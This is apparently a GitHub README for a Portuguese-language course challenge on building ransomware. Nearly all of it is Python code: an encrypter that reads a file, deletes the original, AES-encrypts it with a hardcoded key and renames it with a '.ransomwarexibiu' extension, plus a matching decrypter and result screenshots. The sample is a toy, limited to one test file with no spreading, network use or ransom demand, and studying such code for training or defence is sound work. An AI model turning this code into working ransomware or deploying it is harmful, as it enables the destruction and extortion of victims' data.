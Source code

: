 # Desafio-de-Cria-o-de-Ransomware
Entrega Desafio de Criação de Ransomware

encrypter
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"test1ransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwarexibiu"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
 ================================

 decrypter

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwarexibiu"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"test1ransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

---------------------------------

## RESULTADOS ##
![image](https://github.com/user-attachments/assets/de2e3ca7-fd11-493e-9265-1811c8b70abd)

![image](https://github.com/user-attachments/assets/b6a308dc-fd21-4dbe-8c69-4d20682e888e)

![image](https://github.com/user-attachments/assets/4b423ddc-7ae3-4f14-bbf6-ce498e09a2c3)






